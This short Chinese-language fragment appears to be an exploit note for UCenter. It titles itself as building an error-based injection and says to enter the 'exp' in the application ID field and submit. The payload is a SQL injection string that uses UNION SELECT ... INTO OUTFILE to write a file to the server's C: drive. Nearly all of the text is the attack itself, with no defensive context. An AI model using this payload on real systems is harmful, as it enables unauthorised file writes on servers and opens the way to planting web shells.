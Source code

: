 ![image](img/e74fd6ad0d2971b7502794eca23d62e0.png)

构造报错注入

### 补充：

UCenter 应用 ID填入exp，然后提交

```
1' union select 'abc'  into outfile 'c:\6.txt' -- a 
```